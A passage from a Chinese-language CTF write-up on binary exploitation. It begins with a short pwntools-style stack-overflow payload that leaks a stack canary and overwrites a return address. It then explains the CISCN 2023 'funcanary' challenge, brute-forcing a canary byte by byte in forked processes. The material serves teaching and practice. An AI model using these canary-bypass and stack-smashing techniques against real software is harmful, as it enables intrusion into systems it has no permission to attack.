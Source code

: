 ```bash
leak('canary ',canary)
pl='a'*0x28+p64(canary)+'a'*0x8+p64(0x401245)
sl(pl)
itr()
```

## CISCN 2023 funcanary ( 爆破 canary )

### 原理

每次进程重启后 Canary 不同，但是同一个进程中的不同线程的 Cannary 是相同的  
因为 fork 函数会直接拷贝父进程的内存，所以 fork 函数创建的子进程中的 canary 也是相同的。  
最低位为 0x00，之后逐次爆破，如果 canary 爆破不成功，则程序崩溃。  
爆破成功则程序进行下面的逻辑。  
我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。

### 思路

[![](assets/1706146504-87b75cb2ba742dd77e02ead5fe30913d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233945-4d620c8c-b873-1.png)  
这里有 fork 函数

[![](assets/1706146504-d28ef8ff655a97ddb357b4f2cce60545.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233952-5169b258-b873-1.png)  
里面就是个栈溢出
